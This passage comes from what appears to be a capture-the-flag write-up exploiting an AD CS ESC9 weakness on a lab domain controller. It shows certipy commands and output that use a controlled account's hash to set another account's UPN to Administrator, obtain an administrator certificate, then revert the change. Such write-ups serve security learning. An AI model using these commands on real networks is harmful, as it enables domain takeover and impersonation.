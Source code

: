 When I use this certificate, Windows is nice enough to assume that domain is it’s domain, and authenticate as administrator.

### Exploit ESC9

To exploit ESC9, I’ll abuse my access to the management\_svc account that has `GenericAll` over the ca\_operator account, using it to change the `userPrincipalName` of ca\_operator to be Administrator:

```

oxdf@hacky$ certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.10.11.41 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'

```

Now I’ll request a certificate as ca\_operator using the vulnerable template:

```

oxdf@hacky$ certipy req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

I’ll note that the UPN is Administrator and there’s no SID in the certificate. After this step, I’ll cleanup by changing ca\_operator’s upn back to what it was:

```

oxdf@hacky$ certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'

```

This is more than just for OPSEC. Leaving this will lead to failure. It’s not 100% clear to me why at this point.
